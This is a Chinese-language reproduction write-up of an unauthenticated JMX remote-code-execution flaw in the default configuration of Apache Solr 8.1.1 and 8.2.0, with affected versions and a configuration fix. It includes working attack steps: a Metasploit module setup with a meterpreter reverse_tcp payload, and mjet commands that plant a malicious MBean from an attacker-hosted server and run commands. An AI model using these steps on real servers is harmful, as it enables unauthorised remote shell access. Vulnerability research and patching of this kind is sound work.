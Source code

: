 #### 漏洞简介

近日安全研究人员JanHøydahl披露了Apache Solr的8.1.1和8.2.0发行版中的默认配置文件solr.in.sh,在其配置文件中ENABLE_REMOTE_JMX_OPTS字段值默认为”true”.如果使用受影响版本中的默认配置,那么将启用JMX监视服务并将对公网监听一个18983的RMI端口,且无需进行任何身份验证.如果防火墙中的入站流量打开了此端口，则只要具有Solr节点网络访问权限就能够访问JMX，并且可以上传恶意代码在Solr服务器上执行.

该漏洞不影响Windows系统的用户,仅影响部分版本的Linux用户。


#### 影响版本

solr 8.1.1

solr 8.2.0

#### 环境搭建

直接去官网下载solr 8.2.0版本，然后运行目录下的bin/solr
`./solr start -p 8983`

然后使用msf直接上手,可直接拿到shell

```
use exploit/multi/misc/java_jmx_server
set payload java/meterpreter/reverse_tcp
set LHOST  攻击机ip
set RPORT 18983
set RHOST 目标机ip
run
```

![](assets/msf.png)

当然，msf总是显得有点笨拙了。还可以利用mjet(https://github.com/mogwailabs/mjet)来利用这个漏洞

mjet使用方法直接去github上看，先是部署恶意Mbean

`java -jar jython-standalone-2.7.0.jar mjet.py 127.0.0.1 18983 install super_secret http://127.0.0.1:8000 8000`

![](assets/install.png)

因为我是在本地复现的漏洞，所以我的目标机与web服务器都是填的127.0.0.1，上面的命令执行过程中会在本地搭建一个Web服务器，并把恶意Bean部署到http://127.0.0.1:8000/,然后还会让目标机远程加载我们部署的恶意Mbean，并在目标机上创建这个Mbean,相当于复制过去了。
然后我们就可以利用jmx协议控制这个恶意Mbean,以实现RCE，本地运行如下命令：

`java -jar ../jython-standalone-2.7.0.jar mjet.py 127.0.0.1 18983 command super_secret "pwd"`

其中super_secret是我们上一步设置的密码。

![](assets/pwd.png)


#### python poc

其实有了mjet这些了还要啥python poc啊，因为涉及到使用jmx协议，我看到有个库是Jype,可以调用java代码，但是比起Jython也并没有简单多少....所以老老实实用Jython挺好。其实一开始我打算写python poc的时候有个误区，当时我一直觉得必须要恶意的Mbean才能验证这个漏洞，但是后面小伙伴告诉我直接用dnslog的方式验证也可以，我一想确实是这样，所以，要是不想用jython可以直接抓取攻击过程jmx协议的流量，然后再利用socket发包的形式来复现漏洞利用流程，以实现一个纯python的poc。当然我最后不是这么干的～

在写这个poc的过程中，我了解到如果在使用Jython过程中，java跑出了异常，那么是不能用except Exception as e这种方式捕获的，而是如下形式：
```python
try:
    xxxxx
except:
    xxxxx
```

也就是不用Exception


#### 修复

既然是默认配置导致的问题，那么把配置改一下就好了,文件solr.in.sh中ENABLE_REMOTE_JMX_OPTS字段值改为false


#### 附

   -  1.启动托管MLet和含有恶意MBean的JAR文件的Web服务器

    - 2.使用JMX在目标服务器上创建MBeanjavax.management.loading.MLet的实例

    - 3.调用MBean实例的getMBeansFromURL方法，将Web服务器URL作为参数进行传-递。JMX服务将连接到http服务器并解析MLet文件

    - 4.JMX服务下载并归档MLet文件中引用的JAR文件，使恶意MBean可通过JMX获取

    - 5.攻击者最终调用来自恶意MBean的方法



还是很值得学习的一种攻击方式
